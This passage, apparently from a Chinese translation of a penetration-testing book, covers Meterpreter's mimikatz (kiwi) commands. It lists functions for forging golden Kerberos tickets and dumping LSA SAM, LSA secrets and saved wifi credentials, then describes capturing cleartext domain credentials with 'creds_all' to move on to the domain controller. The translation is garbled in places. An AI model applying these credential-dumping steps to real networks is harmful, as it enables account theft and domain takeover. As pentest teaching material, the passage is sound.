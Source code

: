 ```
golden_ticket_create Create a golden kerberos ticket
kerberos_ticket_list List all kerberos tickets (unparsed)
kerberos_ticket_purge Purge any in-use kerberos tickets
kerberos_ticket_use Use a kerberos ticket
kiwi_cmd Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam Dump LSA SAM (unparsed)
lsa_dump_secrets Dump LSA secrets (unparsed)
password_change Change the password/hash of a user
wifi_list List wifi profiles/creds for the current user
wifi_list_shared List shared wifi profiles/creds (requires SYSTEM)  
```

使用`creds_all`命令将获得`msv`、`wdigest`、`tspkg`和`kerberos`凭证。它基本上是机器上所有保存或存储的凭证的转储。请注意，我们从最近登录到系统的域用户捕获了明文域凭据：

![](img/c71f6cf4-9aa4-439a-8640-58270f1fcbbe.png)

因此，一个下来，并与凭据击中域控制器。

键入以下内容以退出 MeterMeter 会话，而不关闭会话：

```
background
sessions # This will show you the session is still running.  
```

![](img/23125dc2-375c-408f-9b62-af31c2645e21.png)
